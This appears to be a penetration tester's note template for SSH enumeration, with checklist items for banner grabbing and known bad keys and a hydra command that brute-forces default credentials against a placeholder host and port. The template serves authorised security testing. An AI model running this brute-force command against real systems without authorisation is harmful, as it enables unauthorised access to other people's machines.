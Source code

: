 <% tp.file.rename("1_SSH_")%>

- [ ] Banner grabbed: 
- [ ] Bad keys? (https://github.com/rapid7/ssh-badkeys)

## Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt $service://$hip -V -t 4 -I -s $hport
```


# Findings